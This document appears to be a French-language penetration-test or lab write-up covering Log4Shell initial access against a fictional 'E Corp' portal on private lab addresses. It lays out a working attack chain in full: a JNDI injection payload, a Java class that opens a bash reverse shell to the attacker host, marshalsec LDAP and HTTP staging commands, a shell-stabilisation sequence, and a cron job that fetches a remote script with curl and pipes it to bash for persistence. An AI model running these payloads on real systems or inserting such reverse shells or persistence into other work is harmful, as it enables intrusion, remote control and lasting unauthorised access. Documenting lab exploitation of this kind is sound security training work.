



# Phase 1 : Accès initial et persistance (Log4Shell)

**Correspondance MITRE ATT&CK :**
-   **Initial Access :** Exploit Public-Facing Application (T1190)
-   **Execution :** Command and Scripting Interpreter (T1059)
-   **Persistence :** Scheduled Task/Job: Cron (T1053.003)

---

## 1. Détection et validation de la vulnérabilité

L'application web cible (Portail E Corp) est hébergée dans la DMZ à l'adresse `http://192.168.1.200:8443`



Un scan automatisé initial lancé avec **Burp Suite** sur la racine du site ne révèle aucune faille évidente. L'exécution d'une tentative de connexion manuelle révèle cependant une requête HTTP POST vers l'endpoint `/api/login`. En soumettant spécifiquement cette requête à l'analyseur actif équipé de l'**extension Log4Shell Scanner**, l'outil identifie le paramètre JSON `username` comme étant vulnérable à une injection JNDI liée à la bibliothèque Log4j.

L'application semble ainsi journaliser ce champ sans aucune sanitisation préalable; ce qui permet une exécution de code à distance (RCE).

Afin de confirmer cette possibilité de RCE et de s'assurer que le serveur cible a la capacité de résoudre des requêtes externes, un payload de validation pointant vers un serveur de test (Interactsh) est envoyé :

```bash
curl -X POST http://192.168.1.200:8443/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"${jndi:dns://<CALLBACK_URL>}","password":"test"}'
```


*L'interaction DNS interceptée par notre client confirme le point d'entrée : le serveur cible a interprété le payload JNDI et a effectué une résolution DNS vers le domaine externe.*

---

## 2. Exploitation et obtention du reverse shell

L'objectif de cette étape est d'exploiter la faille JNDI pour forcer le serveur cible à télécharger et à exécuter une classe Java malveillante, établissant ainsi un reverse shell vers la machine de l'attaquant (`192.168.1.150`).

**Fichier de charge utile (`Exploit.java`) :**
```java
public class Exploit {
    static {
        try {
            String[] commande = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.1.150/4444 0>&1"};
            Runtime.getRuntime().exec(commande);
        } catch (Exception e) {}
    }
}
```
*Une fois compilée, cette classe exécute un reverse shell natif Bash, redirigeant l'entrée et la sortie standard vers le port 4444 de la machine attaquante.*

**Séquence d'exploitation :**

1.  **Démarrage du serveur LDAP malveillant (Terminal 1) :**

    ```bash
    ~/opt/jdk8u502-b07/bin/java -cp ~/opt/marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.150:8000/#Exploit"
    ```

    Suite à l'injection, l'application vulnérable va tenter de résoudre l'adresse LDAP fournie. L'utilitaire `marshalsec` est utilisé pour instancier un serveur LDAP malveillant qui ne renvoie pas un objet direct, mais une référence JNDI. Il agit comme un routeur : il intercepte la requête de la victime et lui renvoie une directive lui ordonnant d'aller télécharger et instancier la classe Java hébergée sur le serveur HTTP de l'attaquant.

2.  **Hébergement de la classe Java compilée (Terminal 2) :**
    ```bash
    python3 -m http.server 8000
    ```

3.  **Mise en écoute du port pour le reverse shell (Terminal 3) :**
    ```bash
    nc -lvnp 4444
    ```

4.  **Déclenchement de l'exploit (Terminal 4) :** 
    ```bash
    curl -X POST http://192.168.1.200:8443/api/login \
      -H "Content-Type: application/json" \
      -d '{"username":"${jndi:ldap://192.168.1.150:1389/a}","password":"test"}'
    ```

    L'envoi de la requête finale déclenche la chaîne d'exécution.

<br>


*La connexion est établie avec succès. Le contexte d'exécution est limité aux privilèges de l'utilisateur de service `ecorp-web`.*

---

## 3. Stabilisation du shell (upgrade TTY)

Le shell obtenu initialement via Netcat est instable ("dumb shell") : il ne gère pas l'historique des commandes, l'autocomplétion, ni le traitement local des signaux. Une stabilisation (upgrade vers un TTY complet) est critique pour garantir la persistance de la session interactive, notamment en cas d'interruption accidentelle (`Ctrl+C`).

**Étape 1 : Allocation d'un pseudo-terminal (PTY) sur la cible**

Vérification de la présence de Python 3 (`python3 --version`), puis allocation du terminal :
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Étape 2 : Configuration du terminal attaquant en mode brut**

Mise en arrière-plan de la session netcat locale (`Ctrl+Z`), vérification des dimensions de la fenêtre (`stty size`), puis basculement du terminal local en mode brut pour passer les saisies clavier directement à la cible :
```bash
stty raw -echo; fg
```

**Étape 3 : Synchronisation de l'environnement**

Ajustement des variables d'environnement et de la géométrie de la fenêtre pour éviter les problèmes d'affichage lors de l'utilisation d'éditeurs (nano, vim) ou d'affichages longs.
```bash
export TERM=xterm-256color
stty rows 35 cols 141
```
*Une fois ces commandes validées, le shell est totalement interactif et résiste aux interruptions clavier (Ctrl+C).*

---

## 4. Énumération locale et persistance

L'accès initial reposant sur l'exploitation manuelle d'une faille web est chronophage et très bruyant sur le réseau. Une tâche planifiée (Cronjob) est configurée pour assurer un accès C2 (Command & Control) continu et plus discret.

**Reconnaissance locale :**

```bash
id
sudo -l
uname -a
cat /etc/os-release
```
*Les commandes confirment que l'utilisateur `ecorp-web` ne dispose d'aucun privilège d'élévation `sudo`. Le système d'exploitation cible est un Ubuntu 26.04 LTS.*

**Mise en place du mécanisme de persistance (Cron) :**

Plutôt que de déposer un binaire malveillant statique sur le disque, une approche plus furtive est utilisée. Une commande est injectée dans le `crontab` de l'utilisateur pour récupérer dynamiquement et exécuter en mémoire un script hébergé sur la machine de l'attaquant.

*Sur la machine cible (Injection silencieuse) :*
```bash
(crontab -l 2>/dev/null; echo "* * * * * /usr/bin/curl -s http://192.168.1.150/run | /bin/bash") | crontab -
```

*Sur la machine de l'attaquant :*
Hébergement d'un fichier nommé `run` contenant la commande d'exécution du reverse shell :
```bash
bash -i >& /dev/tcp/192.168.1.150/4444 0>&1
```
Le serveur HTTP local est maintenu actif pour distribuer ce payload.

*Après test, le mécanisme est opérationnel. Le serveur web cible initie désormais de lui-même une connexion vers le port d'écoute de l'attaquant à intervalles réguliers, garantissant un accès permanent sans ré-exploitation de l'application Java, une action très bruyante.*
